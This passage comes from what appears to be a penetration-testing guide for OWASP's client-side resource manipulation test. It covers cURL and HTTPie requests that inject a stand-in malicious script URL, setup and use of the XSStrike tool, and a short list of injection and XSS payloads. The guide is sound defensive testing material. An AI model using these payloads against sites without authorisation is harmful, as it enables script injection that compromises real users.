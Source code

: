     - Example:
      ```bash
      # cURL
      curl -i "http://example.com/page?src=http://malicious.com/script.js"
      # HTTPie
      http "http://example.com/page?src=http://malicious.com/script.js"
      ```

- **XSStrike**: A Python-based tool for testing client-side vulnerabilities, including resource manipulation.
  - Install:
    ```bash
    git clone https://github.com/s0md3v/XSStrike.git
    cd XSStrike
    pip install -r requirements.txt
    ```
  - Usage:
    ```bash
    python3 xsstrike.py -u "http://example.com/page?src=test" --dom
    ```
  - **Note**: Use `--dom` flag to focus on client-side resource loading.

- **Resource Payloads**: Curated payloads for manual and automated testing.
  - Sample payloads:
    - `http://malicious.com/script.js`
    - `//malicious.com/image.png`
    - `javascript:alert('xss')` (to test for XSS escalation)
  - Resource: [OWASP Injection Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html).
  - **Tip**: Test payloads in resource attributes and monitor Network tab.

## Testing Methodology

This methodology follows OWASP’s black-box and gray-box approaches for WSTG-CLNT-06, testing client-side resource manipulation vulnerabilities across script sources, image sources, iframe sources, form inputs, and URL fragments.

### 1. Test Script Source Manipulation

**Objective**: Ensure `<script>` tag `src` attributes do not load unvalidated user-controlled URLs.

**Steps**:
1. Identify `<script>` tags:
   - Open Browser Developer Tools (`F12` or `Ctrl+Shift+I`).
   - Use Elements tab to locate `<script>` tags with `src` attributes.
   - Console command:
     ```javascript
     document.querySelectorAll('script[src]').forEach(s => console.log(s.src));
     ```
2. Inject a malicious script URL:
   ```bash
   http "http://example.com/page?script=http://malicious.com/evil.js"
   ```
3. Check for manipulation:
   - Load the page and monitor Network tab for requests to `malicious.com`.
   - Inspect `<script>` tags for the injected URL.
